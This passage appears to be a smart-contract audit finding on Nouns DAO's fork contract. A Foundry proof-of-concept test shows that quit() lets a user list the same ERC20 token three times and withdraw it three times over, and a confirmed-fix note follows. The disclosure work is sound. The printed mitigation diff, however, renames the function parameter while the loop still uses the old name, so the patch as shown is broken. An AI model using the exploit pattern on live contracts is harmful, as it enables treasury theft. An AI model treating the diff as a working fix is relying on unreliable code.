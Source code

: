 Add the following code in test/foundry/governance/fork/NounsDAOLogicV1Fork.t.sol file `NounsDAOLogicV1Fork_Quit_Test` contract,
and run `forge test --ffi --mt test_quit_allowsChoosingErc20TokensToIncludeTwice`.

```solidity
    function test_quit_allowsChoosingErc20TokensToIncludeTwice() public {
        vm.prank(quitter);
        address[] memory tokensToInclude = new address[](3);
        //****************************
        // specify token2 three times
        //****************************
        tokensToInclude[0] = address(token2);
        tokensToInclude[1] = address(token2);
        tokensToInclude[2] = address(token2);
        dao.quit(quitterTokens, tokensToInclude);

        assertEq(quitter.balance, 24 ether);
        assertEq(token1.balanceOf(quitter), 0);
        //****************************
        // get 3 time tokens
        //****************************
        assertEq(token2.balanceOf(quitter), 3 * (TOKEN2_BALANCE * 2) / 10);
     }
```

### Tools Used

VS

### Recommended Mitigation Steps

By using function `checkForDuplicates` to prevent the issue

```diff
--- NounsDAOLogicV1Fork.sol	2023-07-12 21:32:56.925848531 +0800
+++ NounsDAOLogicV1ForkNew.sol	2023-07-12 21:32:34.006158294 +0800
@@ -203,8 +203,9 @@
         quitInternal(tokenIds, erc20TokensToIncludeInQuit);
     }
 
-    function quit(uint256[] calldata tokenIds, address[] memory erc20TokensToInclude) external nonReentrant {
+    function quit(uint256[] calldata tokenIds, address[] memory erc20tokenstoinclude) external nonReentrant {
         // check that erc20TokensToInclude is a subset of `erc20TokensToIncludeInQuit`
+        checkForDuplicates(erc20tokenstoinclude);
         address[] memory erc20TokensToIncludeInQuit_ = erc20TokensToIncludeInQuit;
         for (uint256 i = 0; i < erc20TokensToInclude.length; i++) {
             if (!isAddressIn(erc20TokensToInclude[i], erc20TokensToIncludeInQuit_)) {

```

**[eladmallel (Nouns DAO) confirmed and commented](https://github.com/code-423n4/2023-07-nounsdao-findings/issues/102#issuecomment-1644585861):**
 > Fix PR: https://github.com/nounsDAO/nouns-monorepo/pull/762
